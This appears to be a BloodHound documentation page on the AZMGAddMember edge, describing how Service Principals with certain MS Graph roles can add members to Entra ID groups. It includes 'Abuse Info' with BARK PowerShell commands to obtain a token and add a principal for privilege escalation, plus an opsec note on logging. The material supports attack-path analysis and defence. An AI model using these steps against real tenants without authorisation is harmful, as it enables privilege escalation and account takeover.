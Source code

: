 ---
title: AZMGAddMember
description: "This edge is created during post-processing."
---

<Frame>
  <img noZoom src="/assets/image-2-1.png"/>
</Frame>

It is created against non-role assignable Entra ID security groups when a Service Principal has one of the following MS Graph app role assignments:

* Directory.ReadWrite.All
* Group.ReadWrite.All
* GroupMember.ReadWrite.All

It is created against all Entra ID security groups, including those that are role assignable, when a Service Principal has the following MS Graph app role:

* RoleManagement.ReadWrite.Directory

You will not see this privilege when using the Azure portal or any other Microsoft tooling. If you audit the roles and administrators affecting any particular Entra ID security group, you will not see that the Service Principal can add members to the group, but it indeed can because of the parallel access management system used by MS Graph.

## Abuse Info

You can abuse this privilege using BARK’s Add-AZMemberToGroup function.

This function requires you to supply an MS Graph-scoped JWT associated with the Service Principal that has the privilege to add principal to the target group. There are several ways to acquire a JWT. For example, you may use BARK’s Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT by supplying a Service Principal Client ID and secret:

```bash
$MGToken = Get-MSGraphTokenWithClientCredentials `
    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
    -ClientSecret "asdf..." `
    -TenantName "contoso.onmicrosoft.com"
```
Then use BARK’s Add-AZMemberToGroup function to add a new principial to the target group:

```bash
Add-AZMemberToGroup `
    -PrincipalID = "028362ca-90ae-41f2-ae9f-1a678cc17391" `
    -TargetGroupId "b9801b7a-fcec-44e2-a21b-86cb7ec718e4" `
    -Token $MGToken.access_token
```
Then, you can re-authenticate as the principal you just added to the group and continue your attack path, now having whatever privileges the target group has.

## Opsec Considerations
The Azure activity log for the tenant will log who added what principal to what group, including the date and time.

## References

* [https://attack.mitre.org/techniques/T1098/](https://attack.mitre.org/techniques/T1098/)
* [https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5](https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5)
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
